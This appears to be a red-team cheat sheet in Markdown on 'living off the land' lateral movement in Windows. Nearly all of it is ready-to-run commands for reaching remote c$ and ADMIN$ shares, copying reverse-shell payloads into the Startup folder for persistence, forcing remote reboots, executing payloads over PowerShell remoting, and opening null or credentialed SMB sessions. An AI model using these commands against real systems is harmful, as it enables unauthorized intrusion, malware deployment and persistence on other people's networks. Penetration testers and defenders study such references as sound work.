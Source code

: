 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - remote-file-access
  - living-off-the-land
  - windows
---
```

# Living off the Land

## 01 - List Files and Directories

### 1.1 - Command Prompt

List files and directories remotely

```
C:\> dir \\<IP>\c$
```

List all the files and directories

```
C:\> dir /s /b \\<IP>\c$ > files.txt
```

### 1.2 - PowerShell

List files and directories remotely

```
PS C:\> Get-ChildItem \\<IP>\C$

PS C:\> Get-ChildItem \\<IP>\C$ | Format-Wide -Property Name -Column 1
```

List all the files and directories

```
C:\> ChildItem -Recurse \\<IP>\C$ > files.txt

C:\> ChildItem -Recurse \\<IP>\C$ | Format-Wide -Property Name -Column 1 > files.txt
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy Files Remotely

```
C:\> copy.exe shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy.exe shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy.exe <source> <destination> <files>

C:\> robocopy.exe \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy.exe shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy.exe C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown.exe /t 0 /r /m \\<IP>
```

### 2.2 - PowerShell

#### 2.2.1 - Copy Files Remotely

```
PS C:\> Copy-Item payload.exe -Destination \\<IP>\C$\payload.exe
```

Copy the callback shell and execute it via powershell cmdlet.

```
PS C:\> $ip = New-PSSession -Computer <IP>

Copy-Item "C:\path\to\payload.exe" -Destination "C:\path\to\folder\" -ToSession $ip

icm -Session $ip -ScriptBlock { C:\path\to\payload.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item payload.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net.exe use Z: \\<IP>\c$

C:\> net.exe use Z: \\<IP>\C$ /user:"<username>" "<password>" [/persistent:yes]

C:\> dir Z:\

C:\> net.exe use Z: /delete
```

### 3.2 - PowerShell

```
PS C:\> New-PSDrive -Name <drive_name> -PSProvider FileSystem -Credential $credential \\<IP>\<share_name>

PS C:\> Get-ChildItem <drive_name>:
```

To remove the mounted drive.

```
PS C:\> Remove-PSDrive -Name <drive_name>
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely.

```
C:\> net.exe use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net.exe view \\<IP>
```

Ignore the authentication while authenticating session.

```
C:\> net.exe use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1
```

## 05 - Spawn Payload

### 5.1 - Command Prompt

```
C:\> cmd.exe /q /c "C:\path\to\payload.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1
```

## 06 - Terminate all the sessions

### 6.1 - Command Prompt

```
C:\> net use /delete *
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [LOFLCAB: Copy-Item](https://lofl-project.github.io/loflcab/Cmdlets/Copy-Item/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)